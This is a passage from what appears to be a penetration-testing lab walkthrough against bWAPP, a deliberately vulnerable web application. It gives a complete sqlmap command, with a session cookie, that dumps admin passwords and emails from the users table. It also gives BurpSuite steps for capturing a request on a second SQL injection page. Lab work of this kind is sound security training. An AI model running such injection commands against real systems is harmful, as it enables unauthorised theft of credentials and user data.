 - Dump `password` and `email` for **admin** from the `users` table

```bash
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump
```

![SQLMap Dump](assets/image-20230504193430547.png)

- Turn off Intercept mode in BurpSuite, navigate to `http://192.42.186.3/sqli_6.php` and turn back on Intercept mode.
  - Search `example` string from the page and intercept it
  - **Copy to file** the request and name the filerequest`
